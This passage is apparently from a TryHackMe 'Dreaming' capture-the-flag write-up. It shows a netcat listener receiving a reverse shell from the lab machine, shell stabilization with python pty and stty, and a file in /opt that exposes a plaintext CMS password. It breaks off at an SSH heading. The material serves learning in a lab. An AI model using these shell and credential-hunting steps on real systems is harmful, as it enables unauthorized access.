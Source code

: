 ![Pasted image 20250723205845.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250723205845.png)

Set up a listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and open the file on the [Website](../../3%20-%20Tags/Hacking%20Concepts/Website.md) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Dreaming]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.8.38] 33634
Linux ip-10-10-8-38 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 18:59:14 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Shell Stabilization

We can perform a [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-8-38:/$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-8-38:/$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                              
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Dreaming]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset
www-data@ip-10-10-8-38:/$ 
```

Now we search for something :

```bash
www-data@ip-10-10-8-38:/$ cd opt
www-data@ip-10-10-8-38:/opt$ ls
getDreams.py  test.py
www-data@ip-10-10-8-38:/opt$ cat test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"
```
## SSH Access 
